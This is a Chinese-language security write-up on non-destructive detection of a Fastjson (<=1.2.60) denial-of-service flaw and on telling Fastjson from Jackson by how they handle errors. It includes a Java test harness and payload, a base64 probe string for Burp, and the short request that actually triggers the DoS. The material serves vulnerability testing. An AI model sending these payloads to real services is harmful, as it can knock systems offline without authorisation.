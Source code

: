 # Fastjson <=1.2.60 DoS漏洞无损检测+Fastjson与Jackson组建区分

### 一、漏洞简介

### 二、漏洞影响

Fastjson 1.2.60 以下版本

### 三、复现过程

针对Fastjson DoS 漏洞的检测，相对较好识别，但其需要发送 DoS 的请求包，就会有一个时间延迟，但是部分使用者或 SRC平台对 DoS 类漏洞持保守态度。

所以这里提出一种无损检测 Fastjson DoS 漏洞的方法。

首先有以下几种情况：

**未知目标是否使用 Fastjson ，但站点有原始报错回显**

如果站点有原始报错回显，可以用不闭合花括号的方式进行报错回显，报错中往往会有fastjson的字样

例如

![](images/15890250771543.png)


**无回显，盲区分 Fastjson 和 Jackson**

Java 系 Json 处理基本只有 Fastjson 和 Jackson。
由于 Jackson 相对比较严格, 这里可以很好分辨出 Fastjson 和 Jackson

如果请求包中的 json 如下:

`{"name":"S", "age":21}`

追加一个随机 key ,修改 json 为

`{"name":"S", "age":21,"agsbdkjada__ss_d":123}`

这里 Fastjson 是不会报错的, Jackson 因为强制 key 与 javabean 属性对齐,只能少不能多 key,所以会报错,服务器的响应包中多少会有异常回显

Fastjson：

![](images/15890251000270.png)


Jackson：

![](images/15890251063050.png)


**无损检测原理**

已经知道目标使用的是 Fastjson ,可以用以下 poc 去检测是否存在 DOS 漏洞

Fastjson < 1.2.60 在取不到值的时候会填充 \u001a ,在1.2.60 进行了修复, 对 \x 后面的字符进行是否为16进制允许字符 (0-9a-fA-F) 的校验,所以这里就可以手动 padding ,构造一个特殊的字符串

`\x\u001a\u001a`

测试代码:

Main.java


```java
import com.alibaba.fastjson.JSON;

public class Main {
    public static void main(String[] args) {
        String payload = "{\"a\":\"\\x\u001a\u001a\"}";
        System.out.println(payload);
        Object o = JSON.parseObject(payload);
        System.out.println(o.getClass());
    }
}
```

Fastjson < 1.2.60

pom.xml


```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>tophant</groupId>
    <artifactId>tcc</artifactId>
    <version>1.0-SNAPSHOT</version>
<dependencies>
    <dependency>
        <groupId>com.alibaba</groupId>
        <artifactId>fastjson</artifactId>
        <version>1.2.59</version>
    </dependency>
</dependencies>

</project>
```

![](images/15890251402296.png)


Fastjson == 1.2.60，可以看到报错

pom.xml


```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>tophant</groupId>
    <artifactId>tcc</artifactId>
    <version>1.0-SNAPSHOT</version>
<dependencies>
    <dependency>
        <groupId>com.alibaba</groupId>
        <artifactId>fastjson</artifactId>
        <version>1.2.60</version>
    </dependency>
</dependencies>

</project>
```

![](images/15890251537455.png)


使用 Burp 测试

在 Burp 中测试可以使用 : `eyJhIjoiXHgaGiJ9` (base64解码)

当后端 Fastjson 版本小于 1.2.60 时，使用该请求包不会延时不会报错

![](images/15890251654540.png)


使用 `{"a:"\x` 进行请求就会发生 DOS

![](images/15890251760387.png)


以上的检测方式也已经集成到C/ARS产品中，支持漏洞检测。

**四、参考链接**

https://blog.riskivy.com/%E6%97%A0%E6%8D%9F%E6%A3%80%E6%B5%8Bfastjson-dos%E6%BC%8F%E6%B4%9E%E4%BB%A5%E5%8F%8A%E7%9B%B2%E5%8C%BA%E5%88%86fastjson%E4%B8%8Ejackson%E7%BB%84%E4%BB%B6/